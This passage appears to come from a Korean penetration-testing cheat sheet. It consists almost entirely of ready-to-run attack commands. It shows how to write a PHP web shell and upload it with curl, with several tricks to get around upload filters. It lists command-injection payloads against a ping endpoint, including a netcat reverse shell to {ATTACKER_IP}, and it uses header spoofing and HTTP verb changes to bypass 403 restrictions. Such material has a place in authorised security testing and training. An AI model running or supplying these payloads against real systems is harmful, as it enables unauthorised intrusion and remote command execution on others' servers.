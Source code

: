 #### 파일 업로드 우회

```bash
# 기본 PHP 웹쉘 업로드
echo '<?php system($_GET["cmd"]); ?>' > shell.php
curl -F "file=@shell.php" http://{IP}/upload.php

# 확장자 우회
cp shell.php shell.php.jpg
cp shell.php shell.phtml
cp shell.php shell.php5

# MIME 타입 우회
curl -F "file=@shell.php;type=image/jpeg" http://{IP}/upload.php

# Null byte 우회
curl -F "file=@shell.php%00.jpg" http://{IP}/upload.php

# 대소문자 우회
cp shell.php shell.PhP

# 이중 확장자
cp shell.php shell.jpg.php
```

#### 명령어 주입 테스트

```bash
# 기본 명령어 주입
curl "http://{IP}/ping.php?ip=127.0.0.1;id"
curl "http://{IP}/ping.php?ip=127.0.0.1|id"
curl "http://{IP}/ping.php?ip=127.0.0.1&id"
curl "http://{IP}/ping.php?ip=127.0.0.1`id`"

# URL 인코딩
curl "http://{IP}/ping.php?ip=127.0.0.1%3Bid"
curl "http://{IP}/ping.php?ip=127.0.0.1%7Cid"

# 리버스쉘 시도
curl "http://{IP}/ping.php?ip=127.0.0.1;nc {ATTACKER_IP} 4444 -e /bin/bash"
```

---

## 🚨 문제 해결

### 🔒 403 Forbidden 많이 나올 때

```bash
# 다른 워드리스트 시도
gobuster dir -u http://{IP} -w /usr/share/wordlists/dirb/common.txt
dirb http://{IP} /usr/share/wordlists/dirb/common.txt

# HTTP 메소드 변경
curl -X POST http://{IP}/admin/
curl -X PUT http://{IP}/admin/
curl -X PATCH http://{IP}/admin/

# User-Agent 변경
curl -A "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36" http://{IP}/admin/

# 헤더 조작
curl -H "X-Originating-IP: 127.0.0.1" http://{IP}/admin/
curl -H "X-Forwarded-For: 127.0.0.1" http://{IP}/admin/
curl -H "X-Real-IP: 127.0.0.1" http://{IP}/admin/
```